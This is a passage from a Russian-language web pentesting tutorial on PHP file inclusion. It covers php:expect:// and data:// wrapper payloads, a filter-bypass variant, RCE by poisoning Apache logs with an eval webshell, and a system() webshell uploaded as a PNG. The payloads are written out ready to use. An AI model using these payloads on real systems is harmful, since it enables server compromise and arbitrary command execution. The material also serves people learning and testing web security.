 ```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

##### data://

Еще один способ выполнить код на сервере — отправить его с помощью враппера `data://:`

`http://example.net/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygp OyAgPz4K`

Здесь полезная нагрузка закодирована в base64, на деле же можно сделать и так:

```
http://example.net/?page=data:,
http://example.net/?page=data:;base64,PD9waHAgcGhwaW5mbygpOyAgPz4K
```

Как видно, в последнем примере не используются знаки «/» и «.» «<>», «()», что позволяет обходить дополнительную фильтрацию.

##### Удаленное выполнение кода

Про RCE уже немало написано выше, в разделе «Потоки и врапперы», но чаще всего их удается использовать только с RFI. Здесь же рассмотрим способы получения RCE с LFI.

##### RCE через логи

Суть метода в том, чтобы найти путь до логов на сервере, записать в логи свой PHP-код и затем подключить файл с логами. Так как в PHP весь текст вне тега игнорируется, это сработает.

Основная сложность состоит в том, чтобы найти путь до логов, в которых будут фиксироваться наши действия.

Самый просто вариант записать свое действие в лог — перейти на несуществующую страницу на сервере, например, так: `http://example.net/nothing_here.php`

Нужно по очереди подключать эти логи и искать записи о своих действиях на сайте, если таковые нашлись (например, это будет `/var/log/apache2/access.log`), то записываем в лог PHP-код, который позволит выполнять произвольные команды:

```php
<?php eval($_GET["cmd"]); ?>
```

Кодируем в url и отправляем: `http://example.net/nothing_here.php?/nothing_here.php?<%3Fphp eval(%24_GET["cmd"])%3B %3F>`

Теперь, обратившись к файлу лога, выполнится наш код:<br>`http://example.net/?page=../../../../../../../var/log/apache2/access.log&cmd=ph pinfo();die();`

##### Шелл через RFI

Пожалуй, самая очевидная техника. Если мы можем загружать файлы на сервер (например, картинки, аватарки и пр.) и знаем путь до этого файла, то с помощью LFI сможем подключить его:<br>`http://example.com/index.php?page=path/to/uploaded/file.png`

Здесь в file.png находится наш шелл:

```php
<?php system($_GET['c']); ?>
```
